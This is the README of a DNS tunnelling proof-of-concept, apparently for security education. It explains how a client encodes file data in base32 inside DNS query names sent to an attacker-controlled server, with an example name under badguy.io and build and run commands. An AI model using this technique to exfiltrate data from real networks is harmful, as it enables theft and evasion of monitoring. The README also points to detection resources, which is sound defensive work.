 # DNS Tunneling POC

## Introduction

This is a proof of concept for a DNS tunnelling client and server, for security education. The DNS server implemented here is woefully incomplete, as the point is not to resolve names, but to participate in file transfers. The server only handles A and AAAA queries with a single name, and responds to A queries with the same IP address (16.32.64.128), and to AAAA queries with a response indicating that an IPv6 address is not available, as per [RFC 4074 section 3](https://datatracker.ietf.org/doc/html/rfc4074#section-3).

## Theory of operation

The `client` client can send a file or standard input to a remote name server controlled by an attacker. Each file transfer is identified by a uuid. Each payload  of the data transfer  consists of the uuid, a packet sequence number and 120 bytes of data. The payload is encoded in base 32, then included in a domain name.  This is an example of such a name, which encodes a UUID, a sequence number and 120 bytes of data, and which obeys all of the rules for an Internet domain name:

```text
QLFGR3VWU5D37KJMLXJOKUKDJERQAAAANNXHIZRIEJLXE33UMUQCKZBAMJ4X.IZLTEB2G6IBFOMQGC5BAN5TGM43FOQQCKZC4NYRCYIDQMF4WY33BMQWT43DF.NZTXI2BMEBTGS3DFNZQW2ZJMBIQCAIBAEAQCAIBAOBQXS3DPMFSC2PTTMVYX.KZLOMNSSAKRAGEZDAKJ3BJ6QU.badguy.io
```

In an attack scenario, an attacker would register the badguy.io domain  (from the name above), point the DNS server for the domain to a server running the  `server` application in this project, so that it could receive and decode the specially crafted DNS queries. Since each name query is unique, there is no concern with caching.

## Building

Run `make`. This will build `server`  and `client` in the `dist` directory.  See the `Makefile` for additional targets.

## Running
### Downloader 
Start the server by running `server`. As the server binds to privileged port 53, it must be run as root (or sudo).
Running server:
```
sudo ./server
```

The client usage is as follows:

```shell
sudo ./client --download filename [domain domainname | ip ipaddr]
```

Without any parameters, the program reads from stdin, and uses the default system resolver to eventually reach the attacker DNS server , provided the `client` program is modified to resolve the correct domain (and not badguy.io).

A file name can be specified as the first argument, in which case the file will be transmitted through as many DNS requests as needed.

An IP address can be specified as the second parameter, which is useful in cases where you do not want to set up a domain and a server running `server`. In that case, you can run `server` on any machine, including the same machine on which `client` is running, and point `client` at the server. While this is not a realistic attack scenario in most cases, it will demonstrate transmitting large amounts of data over DNS.
### Uploader
- this feature is going on build.
### Running on Linux

On systems using `systemd`, you will have to temporarily turn off the systemd resolver to free up port 53 (used by the POC server).

```shell
sudo systemctl stop systemd-resolved
```

Since the POC server really cannot resolve anything, you may want to edit `/etc/resolv.conf` to point to a real server, such as `8.8.8.8`

### Running on WSL

WSL requires Internet Connection Sharing which uses port 53. It is therefore not possible to run the server on WSL. The server can however run in a Windows command window.

## Detecting DNS tunnelling
Due to the nature of DNS tunneling, there are several methods to detect it, and thereafter prevent it. See the [Detecting DNS Tunelling](https://www.sans.org/white-papers/34152/) paper from the SANS Institute for examples.


## Dependencies

- Debian package `uuid-dev`
- Debian package `libbsd-dev` (not needed for BSD)

## Included open source code

Base32 encoder/decoder from [Google Authenticator PAM module](https://github.com/google/google-authenticator-libpam)

## References

- [TCP/IP Illustrated Volume 1, W. Richard Stevens](https://www.amazon.com/TCP-Illustrated-Vol-Addison-Wesley-Professional/dp/0201633469)
- https://courses.cs.duke.edu//fall16/compsci356/DNS/DNS-primer.pdf
- [RFC 4074](https://datatracker.ietf.org/doc/html/rfc4074#)
- [RFC1034](https://datatracker.ietf.org/doc/html/rfc1034)
 
